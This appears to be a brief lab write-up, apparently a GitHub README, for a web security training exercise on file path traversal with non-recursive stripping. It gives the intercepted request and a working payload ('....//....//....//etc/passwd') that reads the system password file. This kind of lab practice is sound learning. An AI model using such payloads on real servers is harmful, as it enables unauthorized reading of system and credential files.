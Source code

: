 # File path traversal, traversal sequences stripped non-recursively

## This lab contains a [file path traversal] vulnerability in the display of product images.

## The application strips path traversal sequences from the user-supplied filename before using it.

## To solve the lab, retrieve the contents of the `/etc/passwd` file.

---

### step 1

intercept image in burpsuite
GET /image?filename=21.jpg HTTP/1.1

step2
change url
ET /image?filename=....//....//....//etc/passwd
and send forward turn of intercept

![screenshot](./images/lab3_http_request.png)

